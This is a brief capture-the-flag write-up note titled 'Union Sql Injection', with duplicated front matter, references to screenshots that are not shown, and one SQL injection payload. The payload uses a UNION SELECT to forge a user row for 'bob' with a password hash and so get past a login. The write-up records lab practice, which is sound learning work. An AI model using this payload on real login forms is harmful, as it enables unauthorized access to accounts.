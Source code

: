 ```yaml
---
title: "Union Sql Injection"
date: 2025-06-10T16:53:52+03:00
section: "ms ctf"
categories: ["ms ctf"]
---
```

---
section: "ms ctf"
categories: ["ms ctf"]
title: "Union Sql Injection"
date: 2025-05-21
---

![[Pasted image 20250521130606.png]]

the solution 
![[Pasted image 20250521130644.png]]

the query run was
```sql
' UNION SELECT 1, 'bob', '5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8', ''--
password: password
```

